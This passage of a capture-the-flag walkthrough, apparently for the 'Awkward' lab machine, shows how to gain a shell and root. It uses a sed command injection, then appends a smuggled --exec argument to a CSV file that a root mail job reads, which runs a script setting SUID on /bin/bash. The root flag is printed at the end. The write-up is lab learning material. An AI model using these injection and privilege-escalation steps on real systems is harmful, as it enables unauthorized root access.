 ```sed -i '/item_id=' -e "1e /dev/shm/shell.sh" /dev/shm/shell.sh '/d' /var/www/store/cart/{$user_id}```
<p>After getting a shell we can start enumerate as the www-data user firstly let's get in the couple of directories that we couldn't with bean. After entering the "/var/www/private" directory we can see the leave_requests.csv file that we saw earlier when we did the LFI, so whats interesting is when you run pspy on the system you can see a 
"inotifywait" command thats monitoring on that file.</p>
<img src="captures/22cron.png" />
<p>So now that we are the www-data user we can write in that file.</p>

`www-data@awkward:~/private$ echo "vsvsdf" >> leave_requests.csv`
when entering that command and then going to see what happens in the pspy you can see:
<img src="captures/23mail.png" />
as you can see the the last line of the file leave_requests.csv is add to the mail request. If you go to GTFObins https://gtfobins.github.io/gtfobins/mail/ you can manipulate the mail command and get a shell out of it, well in our case we can't get a shell because that command is not something we can control, but as we did for all that challenge with `awk` and `sed` here we are going to do in a similar manner escaping the real intention of what the admin wanted to do and executing malicious code that will elevate our privileges.
So how to do that? well it goes as follows:
<ol>
  <li>
  create a rev.sh file in /dev/shm and add the following:

  ```
  #!/usr/bin/bash
  chmod u+s /bin/bash
  ```
  `$ chmod +x rev.sh`
  <br>
  </li>
  <li>
  
  `www-data@awkward:~/private$ echo '" --exec="\!/dev/shm/rev.sh"' >> leave_requests.csv`
  
  </li>
  <li><br><img src="captures/24rev.png" /></li>
  as you can see the rev.sh file was executed so now it's just a matter of

  ```
  bean@awkward:/dev/shm$ bash -p
  bash-5.1# cat /root/root.txt
  9704f20d3900154cc08f4f6cd503c684
  ```

</ol>   